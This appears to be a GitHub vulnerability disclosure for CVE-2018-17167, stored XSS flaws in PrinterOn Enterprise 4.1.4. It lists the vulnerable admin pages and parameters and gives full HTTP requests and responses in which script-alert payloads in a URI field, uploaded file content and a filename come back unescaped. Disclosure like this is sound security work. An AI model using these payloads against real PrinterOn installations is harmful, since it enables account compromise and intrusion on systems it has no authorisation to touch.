


# CVE-2018-17167-XSS-PrinterON

PrinterOn Enterprise 4.1.4 suffers from multiple authenticated stored XSS vulnerabilities via the (1) "Machine Host Name" or "Server Serial Number" field in the clustering configuration, (2) "name" field in the Edit Group configuration, (3) "Rule Name" field in the Access Control configuration, (4) "Service Name" in the Service Configuration, or (5) First Name or Last Name field in the Edit Account configuration.


| Application  | Vulnerable Page URL | Vulnerable Parameters | Type |
| ------------- | ------------- | ------------- | ------------- |
| PrinterOn Admin v4.1.4  | /clustering/processing/d34b4b74-d9a4-4d41-a6e5-e9e57aa1b39d/edit  | serverAddress, serverSerialNumber  | Stored  |
| PrinterOn Admin v4.1.4  | /users/groups/edit  | name  | Stored  |
| PrinterOn Admin v4.1.4  | /users/accessControl/rule/add  | name  | Stored  |
| PrinterOn Admin v4.1.4  | /cps/36dfadca-d73a-409a-bcd3-174c8bc75ec5/basic/  | serviceName  | Stored  |
| PrinterOn CPS v4.1.4  | /cps/user/<username>  | firstName, lastName  | Stored  |
| PrinterOn CPS v4.1.4  | /cps/servlet/StoreOptions  | documentURI_uri, documentURI_file(both filename and content)  | Self, Stored  |


### (1) /clustering/processing/d34b4b74-d9a4-4d41-a6e5-e9e57aa1b39d/edit - serverAddress, serverSerialNumber




### (2) /users/groups/edit - name


### (3) /users/accessControl/rule/add - name


### (4) /cps/36dfadca-d73a-409a-bcd3-174c8bc75ec5/basic/ - serviceName


### (5) /cps/user/<username> - firstName, lastName





### (6) /cps/servlet/StoreOptions


##### - documentURI_uri:


##### Request:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: 172.17.20.183
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.20.183/cps/SelectOptions?jobId=561829783
Content-Type: multipart/form-data; boundary=---------------------------95469740417489422911864408348
Content-Length: 3499
Cookie: JSESSIONID=82C1F316328E1701A81C3D508BE22BD0; locale=en_US
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="jobId"

561829783
-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="documentURI_file"; filename=""
Content-Type: application/octet-stream


-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="documentURI_uri"

<script>alert("PrinterOn 4.1.4 XSS")</script>
-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="poCopies"
<--SNIP-->
```


##### Response:

```
HTTP/1.1 200 
Cache-Control: must-revalidate
Cache-Control: max-age=0
Cache-Control: no-cache
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: text/html;charset=utf-8
Content-Language: en-US
Content-Length: 6836
Date: Thu, 06 Sep 2018 06:18:26 GMT
Connection: close
Server: PrinterOn
<--SNIP-->
                <div class="col-md-3 text-center">
                    <script>alert("PrinterOn 4.1.4 XSS")</script>
                </div>
            </div>

            <div class="row">
                <div class="col-md-3"></div>
                <div class="col-md-3 text-center">
                    <label class="control-label">Job ID</label>
                </div>
                <div class="col-md-3 text-center">
                    1001236
                </div>
            </div>
        </div>
    </div>

	
</div>
    </body>
</html>
```


### - documentURI_file (content)


##### Request:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: 172.17.20.183
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.20.183/cps/SelectOptions?jobId=561829786
Content-Type: multipart/form-data; boundary=---------------------------8402911309205592381366920078
Content-Length: 3450
Cookie: JSESSIONID=0C0E333C8523D4EBBBB932B109C06387; locale=en_US
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="jobId"

561829786
-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="documentURI_file"; 
Content-Type: text/plain

<script>alert("PrinterON 4.1.4 XSS2")</script>
-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="documentURI_uri"
<--SNIP-->
```

##### Response:
```
HTTP/1.1 200 
<--SNIP-->
Content-Length: 6837
Date: Thu, 06 Sep 2018 06:47:14 GMT
Connection: close
Server: PrinterOn

<--SNIP-->

 <div class="row">
                <div class="col-md-3"></div>
                <div class="col-md-3 text-center">
                    <label>Document</label>
                </div>
                <div class="col-md-3 text-center">
                    <script>alert("PrinterON 4.1.4 XSS2")</script>
                </div>
            </div>

            <div class="row">
                <div class="col-md-3"></div>
                <div class="col-md-3 text-center">
                    <label class="control-label">Job ID</label>
                </div>
                <div class="col-md-3 text-center">
                    1001248
                </div>
            </div>
        </div>
    </div>

	
</div>
    </body>
</html>
```


### - documentURI_file (filename):


##### Request:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: 172.17.20.183
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.20.183/cps/SelectOptions?jobId=561829788
Content-Type: multipart/form-data; boundary=---------------------------48421886014508415371764384321
Content-Length: 3516
Cookie: JSESSIONID=E5B484FB7164D912126E0705CF62604F; locale=en_US
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="jobId"

561829788
-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="documentURI_file"; filename="<script>alert("PrinterOn 4.1.4 XSS3")</script>"
Content-Type: text/plain

TEST PAGE TEST PAGE TEST PAGE

-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="documentURI_uri" 
<--SNIP-->
```

##### Response:
```
HTTP/1.1 200 
Cache-Control: must-revalidate
Cache-Control: max-age=0
Cache-Control: no-cache
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: text/html;charset=utf-8
Content-Language: en-US
Date: Thu, 06 Sep 2018 07:26:37 GMT
Connection: close
Server: PrinterOn
Content-Length: 9537
<--SNIP-->
 <div class="row">
                              <div class="col-md-3"></div>
                              <div class="col-md-3 text-center">
                                  <label>Document</label>
                              </div>
                              <div class="col-md-3 text-center">
                                  <script>alert("PrinterOn 4.1.4 XSS3")</script>
                              </div>
                          </div>
                          <div class="row">
                              <div class="col-md-3"></div>
                              <div class="col-md-3 text-center">
                                  <label class="control-label">Job ID</label>
                              </div>
                              <div class="col-md-3 text-center">
                                  1001256
                              </div>
                          </div>
                          <!-- Closing this will cancel your request -->
                          <div class="row">
                              <div class="col-md-3 text-center">      
                          </div>
                      </div>
                    </div>
                </div>
    </div>
</div><script type="application/javascript" src="/cps/js/SubmitRequest.js"></script>
    </body>
</html>
```


